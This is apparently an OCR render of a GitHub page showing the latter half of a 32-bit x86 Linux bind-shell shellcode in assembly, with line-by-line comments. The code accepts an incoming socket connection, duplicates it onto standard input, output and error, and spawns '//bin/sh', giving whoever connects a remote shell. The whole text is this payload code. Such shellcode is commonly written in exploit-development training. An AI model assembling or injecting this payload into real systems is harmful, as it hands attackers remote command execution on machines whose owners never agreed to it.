 ``` assembly
  ;ACCEPT
  ;int accept(int sockfd, struct sockaddr *restrict addr, socklen_t *restrict addrlen);
  xor eax, eax
  inc bl                  ;ebx = 5 --> call = accept

  push eax                ;push addrlen=0 for acceptlen
  push eax                ;push addr=0 for accept function
  push edi                ;push sockfd for accept function

  mov ecx, esp            ;save pointer to arguments in ecx

  mov al, 0x66
  int 0x80
  mov edi, eax            ;overwrite old socket in edi


  ;DUP2 
  ;int dup2(int oldfd, int newfd);
  xor ecx, ecx 

  mov cl, 2               ;write 2 in ecx for newfd parameter of dup2 

dupLoop:
  mov ebx, edi            ;write old socket in ebx for oldfd parameter of dup2
  xor eax, eax            
  mov al, 0x3f            ;eax = 0x3f --> dup2
  int 0x80 

  dec cx                  ;decrease ecx by 1 --> newfd    
  jns dupLoop             ;loop until sign / negative flag(so 2,1,0)


  ;EXECVE
  ;int execve(const char *pathname, char *const argv[], char *const envp[]);
  xor eax, eax
  mov ecx, eax            ;arg = ecx = 0
  mov edx, eax            ;envp = edx = 0
  push eax
                          ;//bin/sh
                          ;2f 2f 62 69 - 6e 2f 73 68
  push 0x68732f6e         
  push 0x69622f2f
  mov ebx, esp            ;pathname = ebx --> pointer to the stack to //bin/sh
  mov al, 0xb             ;eax = 0xb --> execve
  int 0x80
```
